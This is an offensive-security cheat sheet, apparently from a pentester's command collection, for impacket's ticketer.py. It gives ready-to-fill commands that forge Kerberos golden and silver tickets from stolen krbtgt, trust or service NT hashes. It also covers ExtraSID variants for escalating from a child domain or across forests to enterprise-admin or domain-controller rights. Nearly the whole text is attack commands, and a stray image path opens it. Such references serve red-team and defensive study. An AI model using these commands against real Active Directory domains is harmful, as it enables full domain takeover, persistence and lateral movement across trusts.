 # ticketer.py (imp)

% impacket-kerberos, windows, kerberos, 88, ticket forgery

#plateform/linux #target/local  #cat/ATTACK/EXPLOIT

## desc
```
Creates a Kerberos golden/silver tickets 
```


## golden ticket  
```bash
ticketer.py -nthash <krbtgt_hash> -domain <domain_fqdn> -domain-sid <domain_sid> -user-id <user_rid|500> <user|administrator>
```

## golden + ExtraSID (parent-child)
if user = administrator no need of -user-id
```bash
ticketer.py -nthash <krbtgt_nthash>  -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid|519> -user-id <user_rid> <user|jubeaz>
```

## golden + ExtraSID (parent-child) (dc account)
```bash
ticketer.py -nthash <krbtgt_nthash> -domain-sid <child_somain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid|516> -user-id <dc_rid>  '<dc_name>$'
```

## golden + ExtraSID (cross-forest)
if user = administrator no need of -user-id
```bash
ticketer.py -nthash <krbtgt_nthash>  -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid> -user-id <user_rid> <user>
```

## golden Inter-Realm TGT    
    export KRB5CCNAME=/tmp/jubeaz.ccache   
    getST.py -k -no-pass -spn <cifs>/<dc_fqdn> <src_domain_fqdn>/<user>@<domain_fqdn> -debug
```bash
ticketer.py -nthash <trust_nthash> -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<RID|519>" -spn "krbtgt/<dest_domain_fqdn>" -user-id <user_rid> <user|jubeaz>
```

## silver ticket
```bash
ticketer.py -nthash <service_nthash> -domain-sid <domain_sid> -domain <domain_fqdn> -spn <svc>/<target_fqdn> -user-id <user_rid|500> <user|administrator>
```